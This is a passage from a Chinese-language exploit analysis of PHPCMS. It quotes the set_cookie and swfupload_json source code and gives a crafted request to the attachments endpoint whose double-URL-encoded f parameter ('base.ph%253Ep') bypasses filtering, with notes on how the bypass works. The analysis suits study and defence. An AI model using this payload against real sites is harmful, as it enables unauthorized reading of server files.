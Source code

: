 


set_cookie
為什麼要使用他，原因在於sys_auth 是加密的函數，我們把payload 轉json格式後，最後走到這會被加密。
```
public static function set_cookie($var, $value = '', $time = 0) {
    $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
    $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
    $httponly = $var=='userid'||$var=='auth'?true:false;
    $var = pc_base::load_config('system','cookie_pre').$var;
    $_COOKIE[$var] = $value;
    if (is_array($value)) {
        foreach($value as $k=>$v) {
            setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s, $httponly);
        }
    } else {
        setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s, $httponly);
    }
}
```


payload:

注意看 參數src
```
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=


//這段是我們精心構造出的payload:
&i=1&m=1&modelid=1&f=phpcms/base.ph%253Ep&d=1&catid=1

繞過細節f參數:
%25 url decode =  %

$3E url decode = >

剩下的其他參數都是交插測試，可以成功的。

```





再重看一次 swfupload_json
phpcms/modules/attachment/attachments.php
```
public function swfupload_json() {
    $arr['aid'] = intval($_GET['aid']);
    $arr['src'] = safe_replace(trim($_GET['src']));
    $arr['filename'] = urlencode(safe_replace($_GET['filename']));
    $json_str = json_encode($arr);
    $att_arr_exist = param::get_cookie('att_json');
    $att_arr_exist_tmp = explode('||', $att_arr_exist);
    if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
        return true;
    } else {
        $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
        param::set_cookie('att_json',$json_str);
        return true;			
    }
}
```
他吃3個get參數
